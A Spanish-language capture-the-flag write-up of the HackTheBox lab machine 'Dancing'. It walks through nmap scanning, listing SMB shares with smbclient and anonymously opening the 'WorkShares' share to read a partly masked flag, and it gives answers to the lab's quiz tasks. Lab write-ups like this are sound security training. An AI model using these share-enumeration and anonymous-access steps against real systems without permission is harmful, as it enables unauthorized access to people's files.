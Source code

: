 +++
date = 2024-07-02
title = "HTB Dancing WriteUp"
slug = ""
author = ["R4NC0X"]
description = "HackThebox 'Dancing' WriteUp"
draft = false
tags = [
    "HTB",
    "Maquina",
    "Windows",
]
+++

# Dancing -- HacktheBox

- Sistema: _Windows_
- Dificultad: _Muy Facil_
- Plataforma: _HacktheBox_

!['Dancing' Avatar](/images/Dancing/Dancing.png)

___

## Resumen 

"Dancing" es una maquina de dificultad "Muy Facil" de la plataforma `HackTheBox`. Dancing forma parte de los laboratorios de `Punto de Partida`.

Para completar la maquina ejecute nmap para realizar un escaneo de puertos a la dirrecion ip `10.129.22.109`, la maquina nos propone el uso de un servicio que es `SMB` [Server Message Block] entonces supe que mi escaneo tendria que enfocarse en el puerto `445`. Ya que supe que servicio esta abierto usando el comando `smbclient -L [DireccionIp]` liste las Acciones de la maquina y procedi a tratar de ingresar en cada una de ellas con el comando `smbclient -N \\\\10.129.22.109\\[Sharename]`, la unica accion a la que pude ingresar sin contraseña fue `WorkShares`. Ya dentro listo con `dir` los contenidos y encuentro que hay dos directorios `Amy.J` y `James.P` ingreso al directorio de `Amy.J` usando el comando `cd` procedi a revisar sus contenidos y no encontre la flag por lo que regrese al directorio principal usando `cd ..` y procedi a ingresar al directorio `James.P` haciendo `dir` encuentro un archivo `flag.txt`, usando el comando `more flag.txt` listo el contenido encontrando la bandera y resolviendo la maquina. 

___

## Procedimiento

Comence resolviendo las Tareas de la maquina, algunas de las tareas son pistas para resolver las maquina.

- **Tarea 1 ¿Qué significa el acrónimo de tres letras SMB?**

`bloque de mensajes del servidor`

- **Tarea 2 ¿En qué puerto opera SMB?**

`445`

- **Tarea 3 ¿Cuál es el nombre del servicio para el puerto 445 que apareció en nuestro escaneo de Nmap?**

`microsoft-ds`

- **Tarea 4 ¿Cuál es la 'bandera' o 'interruptor' que podemos usar con la utilidad smbclient para 'enumerar' las acciones disponibles en Dancing?**

`-L`

- **Tarea 5 ¿Cuántas acciones hay en Dancing?**

`4`

- **Tarea 6 ¿Cuál es el nombre del recurso compartido al que finalmente podemos acceder con una contraseña en blanco?**

`WorkShares`

- **Tarea 7 ¿Cuál es el comando que podemos usar dentro del shell de SMB para descargar los archivos que encontremos?**

`get`

- **Enviar Bandera Root**

Para encontrar la bandera realice un escaneo de puertos a la direccion ip de la maquina usando la herramienta `nmap`.

![Anexo1](/images/Dancing/Anexo1.png)

Como realice el escaneo al puerto `445` de la maquina solo me muestra los datos del servicio `microsoft-ds`. 

![Anexo2](/images/Dancing/Anexo2.png)

Usando el comando `smbclient -L [DireccionIp]` listo todas las Acciones de la maquina para ver en cual de las 4 que se muestran se puede acceder sin contraseña.

![Anexo3](/images/Dancing/Anexo3.png)

Ya que encontre la Accion que me permite ingresar sin contraseña use el comando `smbclient -N \\\\10.129.22.109\\WorkShares`.

![Anexo4](/images/Dancing/Anexo4.png)

Ya adentro procedo a listar todos los contenidos del directorio principal con el comando `dir` encontrando que hay dos directorios.

``` bash
smb: \> dir
  .                                   D        0  Mon Mar 29 03:22:01 2021
  ..                                  D        0  Mon Mar 29 03:22:01 2021
  Amy.J                               D        0  Mon Mar 29 04:08:24 2021
  James.P                             D        0  Thu Jun  3 03:38:03 2021

		5114111 blocks of size 4096. 1753536 blocks available
smb: \> 

```
Primero ingreso al directorio `Amy.J` con el comando `cd` y procedo a listar todos los contenidos que se encuentran en el.

``` bash
smb: \> cd Amy.J
smb: \Amy.J\> dir
  .                                   D        0  Mon Mar 29 04:08:24 2021
  ..                                  D        0  Mon Mar 29 04:08:24 2021
  worknotes.txt                       A       94  Fri Mar 26 06:00:37 2021

		5114111 blocks of size 4096. 1753520 blocks available
smb: \Amy.J\> 

```
Encuentro un archivo llamado `worknotes.txt` y con el comando `more` listo el contenido del archivo.

``` bash
- start apache server on the linux machine
- secure the ftp server
- setup winrm on dancing 

```
El archivo `worknotes.txt` no contenia la bandera de esta maquina por lo que con el comando `cd ..` regreso al directorio principal y posterior ingreso al directorio `James.P` y listo los contenidos de ese directorio.

``` bash
getting file \Amy.J\worknotes.txt of size 94 as /tmp/smbmore.Sda4KS (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \Amy.J\> cd ..
smb: \> cd James.P
smb: \James.P\> dir
  .                                   D        0  Thu Jun  3 03:38:03 2021
  ..                                  D        0  Thu Jun  3 03:38:03 2021
  flag.txt                            A       32  Mon Mar 29 04:26:57 2021

		5114111 blocks of size 4096. 1753646 blocks available
smb: \James.P\> 

```
Observe que hay un archivo llamado `flag.txt` por lo que no dude en ver su contenido para encontrar la bandera.

``` bash
5f61c10dffbc77a704d76016a2******

```
Ingreso la bandera en la ultima Tarea de la maquina `Enviar bandera`.

Una ves enviada la bandera salio un mensaje diciendo `Dancing has been Pwned`.

![Anexo5](/images/Dancing/Anexo5.png)
___

## Maquina Completada :)



